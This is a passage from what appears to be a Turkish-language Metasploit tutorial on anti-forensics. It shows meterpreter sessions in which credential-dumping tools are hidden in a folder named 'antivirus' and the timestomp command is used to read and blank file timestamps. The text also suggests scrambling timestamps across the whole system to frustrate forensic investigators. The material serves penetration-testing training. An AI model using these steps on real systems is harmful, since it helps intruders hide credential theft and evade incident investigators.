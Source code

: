 ```bash
**===========================**

Mode              Size    Type  Last modified                   Name          
----              ----    ----  -------------                   ----          
100777/rwxrwxrwx  174080  fil   2017-05-09 15:23:19 -0600  cachedump64.exe
100777/rwxrwxrwx  57344   fil   2017-05-09 15:23:20 -0600  pstgdump.exe
100777/rwxrwxrwx  57344   fil   2017-05-09 15:23:18 -0600  servpw.exe
meterpreter > cd ..
```



Artık Windows içerisine `antivirus` klasörünün içerisine yüklediğimiz 3 adet `exe` dosyamız var. Bunların zaman bilgilerine bakalım.


```bash
meterpreter > timestomp antivirus\\servpw.exe -v
Modified      : 2017-05-09 16:23:18 -0600
Accessed      : 2017-05-09 16:23:18 -0600
Created       : 2017-05-09 16:23:18 -0600
Entry Modified: 2017-05-09 16:23:18 -0600
meterpreter > timestomp antivirus\\pstgdump.exe -v
Modified      : 2017-05-09 16:23:20 -0600
Accessed      : 2017-05-09 16:23:19 -0600
Created       : 2017-05-09 16:23:19 -0600
Entry Modified: 2017-05-09 16:23:20 -0600
```



`timestomp` komutunun `-r` seçeneğini kullanarak tüm klasör içeriğindeki dosyaların zaman bilgilerini boşaltabilirsiniz.


```bash
meterpreter > timestomp antivirus -r
> Blanking directory MACE attributes on antivirus

meterpreter > ls
40777/rwxrwxrwx   0      dir   1980-01-01 00:00:00 -0700  ..
100666/rw-rw-rw-  115    fil   2106-02-06 23:28:15 -0700  servpw.exe
100666/rw-rw-rw-  12165  fil   2106-02-06 23:28:15 -0700  pstgdump.exe
```



Yukarıda anlatılan yöntemlerle zaman bilgilerini değiştirdik veya boş hale getirdik ancak dikkatli **forensics** araştırmacıları bu garipliği fark edecektir.



Bunun yerine sistemin tamamının zaman bilgilerini değiştirmeyi düşünebilirsiniz. Bu durumda, hangi dosyanın ne zaman oluşturulduğu veya değiştirildiği tamamen karışacaktır. Karşılaştırma yapılacak başka bir dosya olmadığından işler iyice karmaşık hale gelecektir.



Bu durum, sisteme bir müdahale olduğunu açık olarak ortaya koymakla birlikte **forensics** araştırmacılarının işini zorlaştıracaktır.
